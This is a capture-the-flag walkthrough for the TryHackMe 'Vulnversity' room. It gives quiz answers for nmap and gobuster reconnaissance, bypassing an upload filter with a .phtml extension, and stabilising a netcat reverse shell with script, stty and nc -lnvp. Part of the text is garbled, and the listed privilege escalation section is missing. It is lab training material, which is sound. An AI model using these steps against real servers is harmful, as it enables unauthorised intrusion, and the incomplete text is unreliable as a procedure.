 [Vulnersity](https://tryhackme.com/room/vulnversity)
===============

Tasks
----------------------

1. [ Deploy the machine ](#deploy)
2. [ Reconnaissance ](#reconnaissance)
3. [ Locating directories using GoBuster ](#gobuster)
4. [ compromise webserver ](#compromise)
5. [ Privelege Escalation ](#privesc)

<a name="deploy"></a>
## 1. Deploy the machine

```
IP=XXX
```

<a name="reconnaissance"></a>
## 2. Reconnaissance

Check which versions are running:

```
nmap -sV $IP
```

#2 How many ports are open?

```
6
```

#3 What version of the squid proxy is running on the machine?

```
3.5.12
```

#4 How many ports will nmap scan if the flag -p-400 was used?

```
400
```

#5 Using the nmap flag -n what will it not resolve?

```
DNS
```

#6 What is the most likely operating system this machine is running?

```
Ubuntu
```

#7 What port is the web server running on?
```
3333
```

<a name="gobuster"></a>
## 3. Locating directories using GoBuster

```
gobuster -u http://$IP:3333 -w /usr/share/wordlists/common.txt
```

#2 What is the directory that has an upload form page?

```
/internal/
```

<a name="compromise"></a>
## 4. Compromise the webserver


#1. Try upload a few file types to the server, what common extension seems to be blocked?
```
.php
```

#2. Check allowed extensions, what extension is allowed?

I used the python script check_extensions.py for this instead of BurpSuite

```
.phtml
```

#tty upgrade elevation techniques](http://netsec.ws/?p=337) 

Clean alternative without python:

```
/usr/bin/script -qC /bin/bash /dev/null
```
Go out of netcat session
```
stty raw -echo
```
Go in netcat session again
```
nc -lnvp PORT
export TERM=xterm
```

#5 What user was running the web server?

```
bill
```
